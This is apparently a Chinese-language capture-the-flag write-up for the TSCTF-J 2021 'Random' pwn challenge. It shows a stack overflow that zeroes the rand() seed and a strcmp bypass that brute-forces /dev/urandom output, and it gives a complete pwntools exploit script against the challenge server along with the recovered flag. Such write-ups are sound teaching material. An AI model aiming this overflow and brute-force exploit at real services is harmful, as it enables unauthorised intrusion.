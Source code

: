 ```yaml
---
title: 「TSCTF-J_2021」Pwn - Random WriteUp
date: 2021-10-30
tags: ["TSCTF-J_2021", "Pwn", "writeup", "wp"]
authors: [nova]
---
```


## 分析

使用 IDA 打开, 发现题目要求我们输入正确 10 次 C 产生的随机数, 接着需要再输入正确的`/dev/urandom`产生的随机字节数据流

### 初期资料

#### rand()

`rand()`函数每次调用前都会查询是否调用过`srand(seed)`，是否给`seed`设定了一个值，如果有那么它会自动调用`srand(seed)`一次来初始化它的起始值
若之前没有调用`srand（seed）`，那么系统会自动给`seed`赋初始值，即`srand（1）`自动调用它一次

<!--truncate-->

#### /dev/urandom

`/dev/urandom`是 Linux 系统中提供的随机伪设备，任务是提供永不为空的随机字节数据流。

既然`rand()`是根据随机数种子`seed`生成随机数，那么只要`seed`相同，不就可以生成一样的随机数了么？

### 分析代码

#### 第一个随机

我们可以发现*buf*的长度是*22*, 却可以读入*0x30bytes*的数据

![read函数](https://oss.nova.gal/img/image-20211025093806860.png)

观察栈堆，可以发现*buf*与*seed*只相距*0x18*个字节, 则我们可以考虑栈溢出覆盖随机数种子

![栈堆](https://oss.nova.gal/img/image-20211025094037688.png)

#### 第二个随机

这里就略有难度了。搜索的时候我发现了一个通过填充`\x00`使`strlen=0`直接跳过`strncmp`的方法，但这个显然不适合我们的`strcmp`

![第二个随机](https://oss.nova.gal/img/image-20211025095441204.png)

但`strcmp`工作原理是这样的：

> strcmp: 两个字符串自左向右逐个字符相比（按 ASCII 值大小相比较），直到出现不同的字符或遇'\0'为止。

也就是说, 如果*s*是以`\x00`开头的话, 我们的`strcmp`就会返回 0, 而不用管后面的数据和`buff`是什么。

这也就是真正的 random - 让`/dev/urandom`生成以`\x00`开头的字节数据流。

### 编写脚本

```python
from pwn import *
from ctypes import *
context.log_level = 'debug'
def burp():
    sh = remote("173.82.120.231", 10000)
    # sh = process("./randomn") # 在本地测试的时候不知道为什么会报EOFError, 只好连接服务器跑脚本 （问了一哈可能是Ubuntu20.04LTS的程序保护问题）
    libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6') # 引用库文件
    payload = '\x00' * 0x20 # 既然我们的数据都只与buf和seed有关，不如直接全用\x00填充掉
    sh.sendlineafter("ranqom...",payload)
    libc.srand(1) # 用0和用1作为seed结果是一样的
    for i in range(10):
    	a = libc.rand()%100
    	sh.sendlineafter("is the number?\n", str(a))

    # Random_2
    payload = '\x00' # 随便填充一个啦
    sh.sendafter("THIS!??!!", payload)
    print(sh.recvline()) # 会有一个空行所以print了一下，其实也没有必要（）
    respon = str(sh.recvline())
    print(respon)
    if 'LUuUncky' in respon:
    	sh.interactive()
    else:
    	burp()
burp()
```

> 这里有一个小细节, 我们把`seed`用`\x00`填充后，`rand()`函数会自动调用`srand(1)`一次, 而其实`srand(1)`和`srand(0)`的结果是相同的
>
> 关于这里我在[stackoverflow](https://stackoverflow.com/questions/8049556/what-s-the-difference-between-srand1-and-srand0)上找到了一篇文章
>
> > How glibc does it:
> >
> > > [around line 181 of glibc/stdlib/random_r.c](http://sourceware.org/git/?p=glibc.git;a=blob;f=stdlib/random_r.c;h=51a2e8c812aee78783bd6d38c1b6269d41c8e47e;hb=HEAD#l181), inside function `__srandom_r`
> >
> > ```csharp
> >   /* We must make sure the seed is not 0.  Take arbitrarily 1 in this case.  */
> >   if (seed == 0)
> >     seed = 1;
> > ```
> >
> > But that's just how glibc does it. It depends on the implementation of the C standard library.

于是接下来就是漫长的爆破环节了，只能说运气是真的不好，爆破了一个多小时，让我一度以为脚本写的有问题（）

![后半段](https://oss.nova.gal/img/image-20211025104934165.png)

经过漫长的等待终于拿到了 FLAG`o00O0o00D_LuCk_With_y0ur_Ctf_career!!!}`，但只有后半段？怎么会事呢？

仔细研究 IDA 才发现，前半段其实在第一次 random 随机的时候就给出了（但是我由于觉得 log 等级 debug 的东西太多了在跑的时候给他注释掉了）

![前半段_IDA](https://oss.nova.gal/img/image-20211025101006065.png)

于是再跑一次前半段，得到前半段 flag`TSCTF-J{G0`

![前半段](https://oss.nova.gal/img/image-20211025101032214.png)

拼接一下就有完整的 FLAG 了：

`TSCTF-J{G0o00O0o00D_LuCk_With_y0ur_Ctf_career!!!}`
